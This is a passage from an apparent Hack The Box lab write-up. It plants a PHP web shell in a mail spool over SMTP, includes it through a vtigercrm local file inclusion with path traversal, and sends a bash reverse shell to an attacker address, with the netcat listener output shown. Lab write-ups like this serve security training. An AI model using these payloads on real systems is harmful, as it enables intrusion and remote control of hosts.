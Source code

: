 ```shell
<-  250 DSN
 -> MAIL FROM:<wixnic@helo.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Wed, 22 Dec 2021 19:07:02 -0500
 -> To: asterisk@localhost
 -> From: wixnic@helo.htb
 -> Subject: Shell
 -> Message-Id: <20211222190702.277580@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> PHP code: <?php system($_REQUEST["cmd"]); ?>
 ->
 ->
 -> .
<-  250 2.0.0 Ok: queued as D7063D92FD
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

Now we can read that file with the LFI at and add `&cmd=id` at the end of the URL, to execute system commands:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id"
```

Instead of `id` add a reverse shell, I'm also gonna encode the data, in this case the reverse shell code:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/10.10.16.3/443 0>&1"
```

Now we receive a shell:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59168
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ whoami
asterisk
```

# SSH - TCP 22 [Path #2]
